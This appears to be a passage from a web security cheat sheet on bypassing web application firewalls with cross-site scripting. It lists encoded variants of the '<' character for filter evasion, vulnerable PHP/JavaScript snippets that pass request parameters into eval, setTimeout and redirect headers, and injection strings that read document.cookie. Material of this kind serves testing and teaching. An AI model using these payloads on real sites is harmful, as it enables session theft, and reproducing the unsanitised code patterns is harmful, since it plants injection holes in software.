 `&#X003C`  
`&#X0003C`  
`&#X00003C`  
`&#X000003C`  
`&#X3C;`  
`&#X03C;`  
`&#X003C;`  
`&#X0003C;`  
`&#X00003C;`  
`&#X000003C;`  
`\x3c`  
`\x3C`  
`\u003c`  
`\u003C`

  

# Methods to Bypass WAF – Cross-Site Scripting

General issues  
• Stored XSS

If an attacker managed to push XSS through the filter, WAF wouldn’t be
able to prevent the attack conduction.  
• Reflected XSS in Javascript

` Example: `

    <script>

    ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ...

    </script>

    ` Exploitation: /?xss=500); alert(document.cookie);//`

• DOM-based XSS

` Example: `

    <script>

    ... eval($\_GET\[xss\]); ...

    </script>

    ` Exploitation: /?xss=document.cookie`

<b>XSS via request Redirection.</b>  
• Vulnerable code:

    ` ...`  
    ` header('Location: '.$_GET['param']);`  
    ` ...`

As well as:

    ` ...`  
    ` header('Refresh: 0; URL='.$_GET['param']);`  
    ` ...`
